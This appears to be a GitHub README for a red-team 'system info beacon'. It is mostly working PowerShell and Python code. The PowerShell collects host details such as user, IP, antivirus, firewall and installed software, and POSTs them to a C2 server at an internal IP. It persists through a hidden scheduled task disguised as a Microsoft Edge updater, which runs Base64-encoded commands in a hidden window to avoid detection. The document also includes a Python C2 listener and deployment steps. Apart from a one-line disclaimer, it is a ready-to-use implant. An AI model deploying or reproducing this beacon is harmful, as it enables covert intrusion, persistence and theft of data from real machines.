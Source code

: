 # System Info Beacon with COM API Persistence

This project demonstrates a PowerShell-based system beacon that collects system information and persists via a hidden Scheduled Task using the COM API. The data is sent to a Command & Control (C2) server built using Python’s `http.server`.

> ⚠️ **Disclaimer**: This project is for educational and authorized red team use only. 

---

## Requirements
2 Virtual Machines(VMs) are required for this demonstration:
- One with Kali Linux/ ParrotOS or any Linux distro : To host C2 server
- One with Windows 10 : To execute the Powershell Code

## Features of Exploit

- Collects critical system metadata (hostname, IP, OS, user, AV, firewall, uptime, software list, etc.)
- Posts data to a remote HTTP server endpoint
- Creates persistent beaconing via a hidden Scheduled Task using the COM API
- Uses Base64-encoded PowerShell for stealth

---

## PowerShell Beacon Script

### One-Time System Info Beacon

```powershell
$hostname = $env:COMPUTERNAME
$ip = (Get-NetIPAddress -AddressFamily IPv4 | Where-Object { $_.IPAddress -notlike "169.*" -and $_.PrefixOrigin -ne "WellKnown" })[0].IPAddress
$user = $env:USERNAME
$os = (Get-CimInstance Win32_OperatingSystem).Caption
$uptime = (Get-CimInstance Win32_OperatingSystem).LastBootUpTime
$av = (Get-CimInstance -Namespace "root/SecurityCenter2" -Class AntiVirusProduct | Select-Object -ExpandProperty displayName -ErrorAction SilentlyContinue) -join ", "
$firewallStatus = (Get-NetFirewallProfile | Select-Object Name, Enabled | Out-String).Trim()
$topProcesses = (Get-Process | Sort-Object CPU -Descending | Select-Object -First 5 Name, CPU | Out-String).Trim()
$software = (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object -ExpandProperty DisplayName -ErrorAction SilentlyContinue) -join ", "

$payload = @{
    Hostname  = $hostname
    IP        = $ip
    User      = $user
    OS        = $os
    Uptime    = $uptime
    AV        = $av
    Firewall  = $firewallStatus
    Processes = $topProcesses
    Software  = $software
    Time      = (Get-Date).ToString()
}

try {
    Invoke-WebRequest -Uri "http://192.168.1.193/collect" -Method POST -Body $payload -UseBasicParsing
} catch {}
```

### Beacon Script for Logon Trigger

Encapsulated in a Base64-encoded string for stealth and injected via COM API.

### COM API-Based Persistence

```powershell
$encoded = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($beaconScript))

$taskName = "MicrosoftEdgeUpdaterService"
$taskDesc = "Microsoft Edge Telemetry Update"

$service = New-Object -ComObject "Schedule.Service"
$service.Connect()

$rootFolder = $service.GetFolder("\")
$taskDef = $service.NewTask(0)

$taskDef.RegistrationInfo.Description = $taskDesc
$taskDef.RegistrationInfo.Author = "Microsoft Corporation"

$trigger = $taskDef.Triggers.Create(9)
$trigger.UserId = [System.Security.Principal.WindowsIdentity]::GetCurrent().Name

$action = $taskDef.Actions.Create(0)
$action.Path = "powershell.exe"
$action.Arguments = "-NoProfile -WindowStyle Hidden -EncodedCommand $encoded"

$taskDef.Settings.Enabled = $true
$taskDef.Settings.Hidden = $true
$taskDef.Settings.StartWhenAvailable = $true
$taskDef.Settings.DisallowStartIfOnBatteries = $false

$rootFolder.RegisterTaskDefinition($taskName, $taskDef, 6, $null, $null, 3, $null)
```

---

## Python C2 Server

Run this listener to receive and parse the beacon POSTs:

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import parse_qs, unquote_plus

class C2Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers.get('Content-Length', 0))
        post_data = self.rfile.read(content_length).decode()
        parsed = parse_qs(post_data)
        decoded = {k: unquote_plus(v[0]) for k, v in parsed.items()}

        print("\n[+] Beacon Data Received:")
        for key, value in decoded.items():
            print(f"{key.capitalize()}: {value}")

        self.send_response(200)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=C2Handler, port=80):
    server_address = ('', port)
    httpd = server_class(server_address, handler_class)
    print(f"[+] C2 Server Running on Port {port}...")
    httpd.serve_forever()

if __name__ == "__main__":
    run()
```

---

## IoC

![image](https://github.com/user-attachments/assets/342278b2-3e80-4802-9799-409bf0719ffc)

> Bottom half cut due to personal data(extracted by the exploit)

---

## Deployment

1. Host the Python server on an attacker-controlled machine:  
   ```bash
   python3 beacon_server.py
   ```
2. Execute the PowerShell beacon script on the target.
3. Beacon data will be received on the Python server.

---

## References

- [Windows COM API for task scheduling](https://learn.microsoft.com/en-us/windows/win32/api/_com/)
- [PowerShell Remoting and System Management Cmdlets](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.5)
- [HTTP Beaconing Techniques](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/listener-infrastructure_beacon-http-https.htm)

---
